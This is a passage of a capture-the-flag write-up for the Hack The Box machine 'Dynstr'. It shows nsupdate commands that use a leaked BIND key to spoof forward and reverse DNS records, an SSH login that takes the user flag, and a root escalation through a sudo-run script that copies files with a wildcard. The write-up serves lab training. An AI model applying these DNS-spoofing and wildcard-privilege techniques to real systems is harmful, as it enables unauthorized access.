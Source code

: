 Using the key we add a forward and reverse DNS entry for  `sftp.infra.dyna.htb.` pointing to our machine. The next time the machine tries to resolve the allowed hostname it will see our ip connected with it and allow the authentication.

```js
www-data@dynstr:~$ nsupdate -v -k /etc/bind/infra.key
> update add sftp.infra.dyna.htb. 86400 A 10.10.14.14
> send
> update add 14.14.10.10.in-addr.arpa. 300 PTR sftp.infra.dyna.htb.
> send
> quit
```

Now we can use the ssh key to log in as bindmgr and grab the user flag.

```js
$ ssh -i id_rsa bindmgr@10.129.160.254
Last login: Sun Jun 13 00:17:13 2021 from sftp.infra.dyna.htb
bindmgr@dynstr:~$ wc -c user.txt
33 user.txt
bindmgr@dynstr:~$
```

# Root

## Copy permissions

Checking sudo permissions we can see that bindmgr is allowed to run the custom script `bindmgr.sh` as root.

```js
bindmgr@dynstr:~$ sudo -l
sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
Matching Defaults entries for bindmgr on dynstr:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bindmgr may run the following commands on dynstr:
    (ALL) NOPASSWD: /usr/local/bin/bindmgr.sh
```

The script checks for a `.version` file in the current working directory and the version number in it has to be higher than the one of the `.version` file in `/etc/bind/named.bindmgr/.version`. After this it copies all files in the current working directory with a wildcard to the `/etc/bind/named.bindmgr/` directory.
Wildcards are often dangerous and it is also the case this time. Copying a file the resulting copy is owned by the user that issued the command. Since we can run the script with sudo this would be root in this case. This means if we can copy a suid binary we can run this binary as root.

`bindmgr.sh`
```bash
#!/usr/bin/bash

# This script generates named.conf.bindmgr to workaround the problem
# that bind/named can only include single files but no directories.
#
# It creates a named.conf.bindmgr file in /etc/bind that can be included
# from named.conf.local (or others) and will include all files from the
# directory /etc/bin/named.bindmgr.
#
# NOTE: The script is work in progress. For now bind is not including
#       named.conf.bindmgr.
#
# TODO: Currently the script is only adding files to the directory but
#       not deleting them. As we generate the list of files to be included
#       from the source directory they won't be included anyway.
```
